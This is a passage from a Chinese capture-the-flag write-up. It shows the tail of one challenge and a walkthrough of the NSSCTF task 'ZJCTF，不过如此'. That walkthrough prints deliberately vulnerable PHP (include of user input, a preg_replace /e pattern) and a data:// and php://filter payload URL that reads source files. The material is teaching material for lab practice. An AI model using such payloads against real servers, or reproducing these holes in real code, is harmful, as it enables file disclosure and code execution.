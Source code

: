 然后用数组绕过进入到phpinfo界面
![](https://doc.amqyy.cn/uploads/d0e39484-07c1-4f53-902c-4a0361ffb480.png)
在这个界面里有flag迹象
![](https://doc.amqyy.cn/uploads/4cd9c9b7-b96f-46d9-bb8a-d55967d9eb76.png)
访问结果如下
![](https://doc.amqyy.cn/uploads/ec2a7d72-8a74-442b-b5c9-6c5d327d5e37.png)
然后有无从下手，看了一下别人的做法，原来这个界面是故意设计的，f12后还是能在网络那找到flag的
![](https://doc.amqyy.cn/uploads/a366fbdd-2ac3-4922-af97-6c6aefe842b9.png)

## [BJDCTF 2020]ZJCTF，不过如此

>做题人：余俊康
>题目地址：https://www.nssctf.cn/problem/717
>知识点：php伪协议

打开看到一段php代码
```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```
因为涉及到text，所以用伪协议中的date：//和filter
构造如下payload
```
http://node4.anna.nssctf.cn:28282/?text=data://text/plain,I%20have%20a%20dream&file=php://filter/convert.base64-encode/resource=next.php
```
然后就得到一串base64,解码后得到下面这段代码
```php-template=
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
```